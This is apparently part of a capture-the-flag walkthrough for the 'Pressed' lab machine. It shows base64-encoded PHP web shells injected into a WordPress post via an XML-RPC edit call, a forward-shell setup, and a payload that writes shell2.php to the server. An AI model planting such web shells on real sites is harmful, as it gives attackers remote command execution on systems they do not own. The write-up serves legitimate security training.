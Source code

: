 ```bash
<?php  echo(file_get_contents('/var/www/html/output.log')); if ($_SERVER['REMOTE_ADDR'] == '10.10.14.132'){system($_REQUEST['cmd']);}?>

#After base64 encoding:
PD9waHAgIGVjaG8oZmlsZV9nZXRfY29udGVudHMoJy92YXIvd3d3L2h0bWwvb3V0cHV0LmxvZycpKTsgaWYgKCRfU0VSVkVSWydSRU1PVEVfQUREUiddID09ICcxMC4xMC4xNC4xMzInKXtzeXN0ZW0oJF9SRVFVRVNUWydjbWQnXSk7fT8+
```

Now we have to edit the post on the page; changing the code part to our payload

```bash
mod_post = plist[0]
mod_post.content = '<!-- wp:paragraph -->\n<p>The UHC January Finals are underway!  After this event, there are only three left until the season one finals in which all the previous winners will compete in the Tournament of Champions. This event a total of eight players qualified, seven of which are from Brazil and there is one lone Canadian.  Metrics for this event can be found below.</p>\n<!-- /wp:paragraph -->\n\n<!-- wp:php-everywhere-block/php {"code":"PD9waHAgIGVjaG8oZmlsZV9nZXRfY29udGVudHMoJy92YXIvd3d3L2h0bWwvb3V0cHV0LmxvZycpKTsgaWYgKCRfU0VSVkVSWydSRU1PVEVfQUREUiddID09ICcxMC4xMC4xNC4xMzInKXtzeXN0ZW0oJF9SRVFVRVNUWydjbWQnXSk7fT8+","version":"3.0.0"} /-->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->'
client.call(wp.posts.EditPost(mod_post.id, mod_post))
```

Now if we go back to the site and add the parameter cmd=id, we see our webshell is working:

![image.png]({{ site.baseurl }}/assets/pressed/image%203.png)

Now we can try using a forward shell to get a real interactive shell. First clone the repo to host. Then edit the url to our webshell

```bash
Line 20: self.url = r"http://pressed.htb/index.php/2022/01/28/hello-world/"

Line 63: data = {'cmd': payload }

Line 65: r = requests.post(self.url, data=data, proxies=proxies, timeout=timeout)
```

Now we execute it. However, we get too much junk from the site. We could either create a new site without the html or edit the page again with no html. Again, use the payload we already created minus the log output and base64 encode it:

```bash
<?php system($_REQUEST['cmd']);?>

#base64 encode
PD9waHAgc3lzdGVtKCRfUkVRVUVTVFsnY21kJ10pOz8+Cg==
```

Then put it in tht write php file function that we are going to put on the web page

```bash
<?php file_put_contents('shell2.php', base64_decode('PD9waHAgc3lzdGVtKCRfUkVRVUVTVFsnY21kJ10pOz8+Cg==')); echo ("success"); ?>

#then base64 encode this so we can feed it to php everywhere like we did before
PD9waHAgZmlsZV9wdXRfY29udGVudHMoJ3NoZWxsMi5waHAnLCBiYXNlNjRfZGVjb2RlKCdQRDl3YUhBZ2MzbHpkR1Z0S0NSZlVrVlJWVVZUVkZzblkyMWtKMTBwT3o4K0NnPT0nKSk7IGVjaG8gKCJzdWNjZXNzIik7ID8+Cg==
```
